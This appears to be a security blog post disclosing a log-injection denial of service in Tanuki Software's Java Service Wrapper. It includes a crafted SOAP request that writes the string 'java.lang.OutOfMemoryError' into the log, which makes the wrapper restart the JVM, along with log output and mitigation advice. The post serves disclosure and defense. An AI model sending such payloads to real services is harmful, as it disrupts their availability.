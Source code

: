 ```yaml
---
layout: post
title:  "Start a process restart / Denial of Service by logfile injection on Tanuki Software Java Service Wrapper filter action"
date:   2019-08-29 21:50:00 MEST
author: 'psytester'
---
```


Recently, when I played with logfile injection, I found a nice catch in the filter action of Tanuki Software's Java Service wrapper when [OutOfMemoryError Detection](https://wrapper.tanukisoftware.com/doc/english/prop-filter-x-n.html#outofmemory) is used.

```
The simplest way to do this is as follows:
Example:
wrapper.filter.trigger.1=java.lang.OutOfMemoryError
wrapper.filter.action.1=RESTART
```

This sample configuration might also be used in the production environment?

We just need to send a payload that will be propagate to the wrapper.log file at runtime.
In my case, I addressed a Soap IF and created a request with errors to cause an unmarshalling error.

Build a faulty SOAP request that ensures that the string java.lang.OutOfMemoryError is written in the log file, I added the non existing "java.lang.OutOfMemoryError" element to the namespace:
```
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:ns2=......>
   <soap:Header/>
   <soap:Body>
      <ns2:SoapOperation>
		.....
        <ns2:validElement><ns2:java.lang.OutOfMemoryError>Inject Me</ns2:java.lang.OutOfMemoryError></ns2:validElement>
		.....
      </ns2:SoapOperation>
   </soap:Body>
</soap:Envelope>
```

The goal is achieved, the false positive leads to the process restart:
```
INFO   | jvm 1    | 2019/08/21 13:38:13 | DefaultValidationEventHandler: [ERROR]: unexpected element (........., local:"java.lang.OutOfMemoryError"). Expected elements are (none)
STATUS | wrapper  | 2019/08/21 13:38:13 | The JVM has run out of memory.  Restarting JVM.
```

Mitigation:
- do not use this special filter action
- or the application needs to catch such exceptions, otherwise it will be visible in wrapper.log
